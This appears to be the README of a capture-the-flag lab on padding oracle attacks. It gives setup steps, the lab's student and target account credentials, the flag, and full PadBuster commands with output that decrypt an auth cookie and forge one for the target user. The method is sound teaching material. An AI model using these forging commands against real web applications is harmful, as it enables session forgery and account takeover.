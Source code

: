 ## Padding Oracle Attack CTF Guide
### Install requirements:
```shell
pip install -r requirements.txt
```
Then app can be run (default port 5000).

### Additional details
- Prepared user for students:
  - login: **student**
  - password: **student123**
- Account to hack:
  - login: **black13** (provided after logging)
  - password: **ry8iDHz07943** (just in case, shouldn't be brute-force prone)
- Flag value: "**The package will be delivered at 03:17 AM near the old lighthouse.**"

## PoC using PadBuster
Kali link: https://www.kali.org/tools/padbuster/

GitHub link: https://github.com/AonCyberLabs/PadBuster

I wasn't able to download from apt, so cloned from git repository and run script with perl.

### Install necessary packages
```shell
apt-get install libcrypt-ssleay-perl
```
### Decrypt token
Read token from browser cookie (x-auth) and decrypt it with PadBuster.
```shell
perl padBuster.pl http://127.0.0.1:5000/dashboard 5cdc2a88ab733064f5825afd1913c7123bacb856c502e7f76f97886c2a87017af25b157839f28c0aa6565873e038f918 16 -encoding 1 -error incorrect -cookies x-auth=5cdc2a88ab733064f5825afd1913c7123bacb856c502e7f76f97886c2a87017af25b157839f28c0aa6565873e038f918 -verbose
```
Output:
```
[+] Decrypted value (ASCII): student|2030-04-03 16:34:19
```
This is self-prepared token (5 years valid) just to make PoC work everytime.

### Encrypt token
Here I encrypt token with modified username.
```shell
perl padBuster.pl http://127.0.0.1:5000/dashboard 5cdc2a88ab733064f5825afd1913c7123bacb856c502e7f76f97886c2a87017af25b157839f28c0aa6565873e038f918 16 -encoding 1 -error incorrect -cookies x-auth=5cdc2a88ab733064f5825afd1913c7123bacb856c502e7f76f97886c2a87017af25b157839f28c0aa6565873e038f918 -verbose -plaintext 'black13|2030-04-04 16:00:00'
```
Output:
```
[+] Encrypted value is: 9d09391ea2018e9ac1a934e78aa318ac91a86daa5b0baf80bbfae781d2cedd4300000000000000000000000000000000
```
Such token can be set as browser cookie, and it completes our CTF.